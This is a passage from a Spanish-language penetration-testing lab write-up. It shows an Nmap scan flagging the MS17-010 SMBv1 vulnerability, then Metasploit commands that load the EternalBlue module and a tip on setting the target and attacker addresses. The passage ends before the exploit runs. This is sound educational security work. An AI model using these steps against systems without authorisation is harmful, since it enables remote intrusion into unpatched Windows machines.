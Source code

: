 ```bash    
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 5.11 seconds

```
![figura](/assets/images/2024-11-03-EP/Captura de pantalla 2024-11-03 182148.png)


> **Comentario:** Los resultados indicaron que el servidor tiene habilitado el servicio SMBv1, que es conocido por ser vulnerable a varios exploits, incluido **EternalBlue (MS17-010)**. Este exploit permite ejecutar código remoto en sistemas Windows que tengan SMBv1 habilitados.

- Explica brevemente el funcionamiento del script exploit/windows/smb/ms17_010_eternalblue y por qué se selecciona este módulo en particular para obtener acceso remoto.

> **Explicación:** Se ejecuta el módulo **exploit/windows/smb/ms17_010_eternalblue** como herramienta para obtener acceso remoto en sistemas Windows vulnerables, y su uso en pruebas de penetración puede proporcionar una visión clara de las debilidades de seguridad en una red.

- Iniciar Metasploit desde la maquina atacante
```bash
msfconsole -q
```
- Activar el módulo **exploit/windows/smb/ms17_010_eternalblue**
```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```    
![figura](/assets/images/2024-11-03-EP/1.png)

***
### 2.3. Configuración del Exploit en el Framework Metasploit
- Configura el exploit mencionado anteriormente, especificando los parámetros necesarios, como las direcciones IP del atacante y la víctima.

> Tip: Configura los parámetros RHOSTS para la IP de la máquina objetivo y LHOST para tu máquina atacante. Estos son esenciales para establecer la conexión.
